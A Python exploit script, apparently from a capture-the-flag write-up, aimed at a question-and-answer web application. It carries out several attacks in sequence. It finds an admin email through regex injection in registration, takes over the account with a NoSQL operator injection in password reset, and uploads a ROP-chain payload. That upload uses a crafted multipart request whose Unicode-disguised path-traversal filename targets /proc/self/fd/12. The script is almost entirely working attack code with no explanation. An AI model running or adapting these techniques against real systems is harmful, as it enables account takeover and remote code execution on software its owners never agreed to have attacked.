 ```python
    for s in words:
        r1 = requests.post(URL+'/api/auth/register', json={'username':'qwer','email':f'{email_prefix}{s}.*@admin\\.com', 'password':'qwer'})
        if "User already exists" in r1.text:
            guide_email += s
            email_prefix+=s
            break
guide_email += "@admin.com"
print(f"guide_email : {guide_email}")

# change guide password
new_password = 'hihi'
requests.post(URL + '/api/auth/reset', json={'email':guide_email, 'change':True, 'token':{'$ne':'asdf'},'password':new_password})

# make question & answer
session = requests.Session()
session.post(URL + '/api/auth/login', json={'email':guide_email, 'password':new_password})
session.post(URL + '/api/questions', json={'text':'test', 'category':'General'})
r1 = session.get(URL + '/api/questions')
data = r1.json()
r2 = session.post(URL + '/api/answers', json={'text':'asdf','questionId':data[0]['_id']})
data = r2.json()
answer_id = data['uuid']
print(answer_id)

# make rop chain
file_content = make_rop_chain()

# write exploit.bin at /proc/self/fd/{fdnum}
file_name_raw = "/proc/self/fd/12"
filename = "..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯" + file_name_raw.replace("/", "丯")

filename_rfc5987 = f"UTF-8''{quote(filename)}"
boundary = "----WebKitFormBoundaryWzBpweyhtRcd9i8R"
dash_boundary = f"--{boundary}"

body = bytearray()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="text"\r\n\r\n'
    "asdfasdfasdf\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="rating"\r\n\r\n'
    "5\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    f'Content-Disposition: form-data; name="image"; filename*={filename_rfc5987}\r\n'
    "Content-Type: text/html\r\n\r\n"
).encode()
body += file_content + b"\r\n"
body += (f"{dash_boundary}--\r\n").encode()

headers = {
    "Content-Type": f"multipart/form-data; boundary={boundary}",
}

```